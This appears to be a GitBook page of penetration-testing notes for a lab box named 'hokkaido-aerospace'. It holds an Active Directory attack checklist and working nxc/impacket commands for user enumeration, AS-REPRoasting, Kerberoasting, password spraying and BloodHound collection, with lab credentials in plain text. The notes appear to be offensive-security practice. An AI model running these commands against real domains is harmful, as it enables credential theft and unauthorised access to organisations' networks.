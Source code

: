 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# WIP

## No Creds

<details>

<summary>HTTP(S)</summary>

* [ ] [Dirbust](../web/dirbusting.md) HTTP(S) ports with
  * [ ] [Directory list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-directories.txt) plus server-specific extensions
  * [ ] [File list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-files.txt) plus server-specific extensions

</details>

<details>

<summary><a href="../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] Null session
* [ ] Guest session
* [ ] Anonymous session

</details>

<details>

<summary>AD Attacks</summary>

* [ ] Check for valid users ([kerbrute](https://x7331.gitbook.io/boxes/tl-dr/active-directory/ad-tools/kerbrute))
  * [ ] BFA with `user:user`
* [ ] [AS-REPRoast](../tl-dr/active-directory/attacks/as-reproasting.md)
  * [ ] Crack hashes

</details>

## With Creds&#x20;

### Remote Access

<details>

<summary>User Context</summary>

* [ ] [SMB Enumeration](../services/shares/smb-139-445.md#usage)

</details>

<details>

<summary>AD Attacks</summary>

* [ ] Create a domain user list ([nxc](../tl-dr/active-directory/ad-tools/netexec.md#smb))
  * [ ] Password spray with `user:user`
* [ ] [Kerberoast](../tl-dr/active-directory/attacks/kerberoasting.md)
  * [ ] Crack hashes
* [ ] Collect [domain data](../tl-dr/active-directory/ad-tools/bloodhound.md#ingestors) (RustHound-CE, bloodhound-python)
  * [ ] Analyze data and note potential targets and attack vectors

</details>

### Local Access

<details>

<summary>User Context</summary>

* [ ] Check [groups](../tl-dr/infra/os/windows/privilege-escalation/groups/)
* [ ] Check [privileges](../tl-dr/infra/os/windows/privilege-escalation/privileges/)

</details>

<details>

<summary>AD Attacks</summary>

* [ ] Collect [domain data](../tl-dr/active-directory/ad-tools/bloodhound.md#ingestors) (SharpHound)
  * [ ] Analyze data and note potential targets and attack vectors

</details>



## Domain User

1. Create a userlist and AS-REPRoast, Kerberoast, PassSpray

{% code overflow="wrap" %}
```bash
# Domain users
nxc smb hokka -u info -p info --users | awk '$1 == "SMB" && $5 != "[+]" && $5 != "-Username-" && $5 != "[*]" && $5 != "Guest" && $5 != "krbtgt" {print $5}' > domain_users

# AS-REPRoast
$ impacket-GetNPUsers hokkaido-aerospace.com/ -dc-ip 192.168.155.40 -no-pass -usersfile domain_users

# Kerberoast
impacket-GetUserSPNs -request -dc-ip hokka hokkaido-aerospace.com/info:info

# Password Spray
nxc smb hokka -u domain_users -p domain_users --continue-on-success | grep +
```
{% endcode %}

2. Enumerate SMB shares

```bash
nxc smb hokka -u info -p info --shares
```

3. Check for remote access

```bash
nxc winrm hokka -u info -p info
nxc rdp hokka -u info -p info
```

4. Collect domain data

{% code overflow="wrap" %}
```bash
$ nxc ldap dc.hokkaido-aerospace.com -u discovery -p Start123! --bloodhound -c All --dns-server 192.168.155.40
```
{% endcode %}
